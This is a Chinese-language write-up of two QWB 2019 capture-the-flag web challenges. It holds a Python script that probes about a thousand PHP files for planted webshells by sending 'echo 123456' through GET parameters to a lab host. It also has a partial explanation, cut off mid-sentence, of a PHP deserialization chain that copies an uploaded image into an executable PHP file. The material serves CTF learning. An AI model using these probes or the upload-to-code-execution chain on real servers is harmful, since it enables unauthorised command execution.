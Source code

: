 ## qwb_2019_smarthacker

有1000多个php文件，每个文件里都有shell,写个脚本去探测shell的可用性，只会写单线程的，这里只正则寻找了get参数，其实还应该有post,大概跑了五分钟

```
import re
import os
import requests

files = os.listdir('/Users/yechengcheng/Desktop/ctf_training/qwb_2019_smarthacker/files/src/')    #获取路径下的所有文件
reg = re.compile(r'(?<=_GET\[\').*(?=\'\])')   #设置正则
for i in files:                #从第一个文件开始
    url = "http://172.16.4.116:8302/" + i
    f = open("/Users/yechengcheng/Desktop/ctf_training/qwb_2019_smarthacker/files/src/"+i)        #打开这个文件
    data = f.read()           #读取文件内容
    f.close()                 #关闭文件
    result = reg.findall(data)  #从文件中找到GET请求
    for j in result:           #从第一个GET参数开始
        payload = url + "?" + j + "=echo 123456"   ##尝试请求次路径，并执行命令
        print(payload)
        html = requests.get(payload)
        if "123456" in html.text:
            print(payload)
            exit(1)
```
![image](http://note.youdao.com/yws/res/1667/02F816CD0C0E475DAB8C4652A9342AE8)



## qwb_2019_upload

1.源码泄露，本地复现不了，注册登录后可上传图片马，本地复现不了

2.源码有这样几段，在html/application/controller路径下

![image](http://note.youdao.com/yws/res/1677/C107150771D44F9AA8103E376451C301)

存在反序列化和魔法函数

![image](http://note.youdao.com/yws/res/1680/5C8A7AA08D544BF7A0D3861C70F5B59C)

![image](http://note.youdao.com/yws/res/1682/ACCC4FAA96364636B25613DC9B611FC5)

index.php是一个索引界面，我们请求过去后，反序例化我们传过去的对象来检查是否登陆

在Register.php的析构函数中，主要想判断是否注册成功，没成功调用index方法

Profile.php中的_call和_get方法分别是在调用不可调用方法和不可调用成员变量时怎么做

这时候我们通过call去调用upload_img方法，通过控制传参来调用copy将png图片拷贝为php文件

所以我们这里利用析构函数来构造，将cheeker构造为profile对象，调用起index的时候，调用了不存在的方法所以触发
